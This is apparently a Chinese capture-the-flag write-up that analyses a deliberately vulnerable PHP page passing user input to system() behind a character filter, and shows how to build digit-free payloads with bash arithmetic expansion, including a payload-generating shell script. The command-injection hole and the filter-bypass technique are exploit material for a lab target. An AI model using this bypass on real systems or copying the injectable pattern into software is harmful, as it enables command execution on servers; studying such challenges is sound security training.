





```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-08 01:02:56
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}

```

分析源码

提示flag在36.php中

过滤了

;

小写字母

数字

`

\

#

'

"

%

\x09

\x26

\x0a

\>

\<

.

,

?

*

-

=

[


并且ystem中已经拼接了cat和php

因此我们传入36即可


但是数字被过滤了


没有过滤+和~

因此可以利用取反


首先要理解

```
$(())
```

在linux中表示0



则对$(())取反表示-1

```
$((~$(()))) 
```




则我们可以拼接37个-1，最后对其取反得到36


执行shell脚本






分析一下shell脚本

```
#!/bin/bash
result=""
for i in `seq $(($1 + 1))`;do
        result+="\$((~\$(())))"
done

result_1="\$(($result))"
result_2="\$((~$result_1))"
echo $result_2
```


传入要生成的数字，这里我们要拼接36，因此传入36

循环36+1次

即拼接-37

但是第一次result运行的结果是-1-1-1-1这种格式



因此在外面拼接一个$(())用于计算结果，赋值给result_1

然后对该结果取反，赋值给result
